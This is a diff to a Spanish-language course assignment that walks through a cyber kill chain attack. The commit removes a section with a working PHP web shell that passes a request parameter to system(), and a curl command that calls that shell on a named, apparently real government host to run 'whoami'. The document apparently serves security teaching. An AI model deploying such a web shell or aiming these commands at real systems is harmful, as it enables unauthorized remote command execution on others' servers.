

Before and after one commit to dvazquez1981/ceiot_base, a Markdown page: CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
+++ b/CIBS/ejercicio_1_ciberkillchain_ataque/entrega.md
@@ -712,27 +712,6 @@ resultado:
            valid_lft forever preferred_lft forever
       ```
 
-
-
-
-
-  Instalación de web shell para acceso persistente:
- ```text
-    <?php
-    if(isset($_REQUEST['cmd'])) {
-        system($_REQUEST['cmd'] . " 2>&1");
-    }
-    ?>
- ```
-
-- T1210 – Exploitation of Remote Services
- ```text
- curl -k "https://siper.vialidad.gob.ar/tmp/uploads/shell.php?cmd=whoami"
- ```
-
-
-
-
 ## Command & Control
 - T1071 – Application Layer Protocol
 
````
